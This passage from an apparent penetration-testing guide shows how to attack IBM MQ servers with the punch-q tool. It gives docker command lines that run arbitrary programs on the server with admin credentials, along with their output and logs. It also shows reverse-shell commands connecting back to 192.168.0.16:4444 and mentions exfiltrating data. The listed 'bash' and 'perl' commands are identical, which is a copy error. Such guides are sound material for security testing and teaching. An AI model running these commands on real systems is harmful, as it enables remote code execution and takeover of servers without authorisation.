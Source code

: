 > In the logs of IBM MQ, you can read the command is successfully executed:
> 
> ```bash
> 2023-10-10T19:13:01.713Z AMQ5030I: The Command '808544aa7fc94c48' has started. ProcessId(618). [ArithInsert1(618), CommentInsert1(808544aa7fc94c48)]
> ```

You can also enumerate existing programs on the machine (here `/bin/doesnotexist` ... does not exist):

```bash
❯ sudo docker run --rm -ti leonjza/punch-q --host 172.17.0.2 --port 1414 --username admin --password passw0rd --channel DEV.ADMIN.SVRCONN command execute --cmd "/bin/doesnotexist" --arg
s "whatever"
Command: /bin/doesnotexist
Arguments: -c id
Service Name: 6e3ef5af652b4436

Creating service...
Starting service...
The program '/bin/doesnotexist' is not available on the remote system.
Giving the service 0 second(s) to live...
Cleaning up service...
Done
```

**Be aware that the program launch is asynchronous. So you need a second item to leverage the exploit** ***(listener for reverse shell, file creation on different service, data exfiltration through network ...)***

**Example 2**

For easy reverse shell, **punch-q** proposes also two reverse shell payloads :

* One with bash
* One with perl

*Of course you can build a custom one with the `execute` command.*

For bash:

```bash
❯ sudo docker run --rm -ti leonjza/punch-q --host 172.17.0.2 --port 1414 --username admin --password passw0rd --channel DEV.ADMIN.SVRCONN command reverse -i 192.168.0.16 -p 4444
```

For perl:

```bash
❯ sudo docker run --rm -ti leonjza/punch-q --host 172.17.0.2 --port 1414 --username admin --password passw0rd --channel DEV.ADMIN.SVRCONN command reverse -i 192.168.0.16 -p 4444
```

### Custom PCF

You can dig into the IBM MQ documentation and directly use **pymqi** python library to test specific PCF command not implemented in **punch-q**.
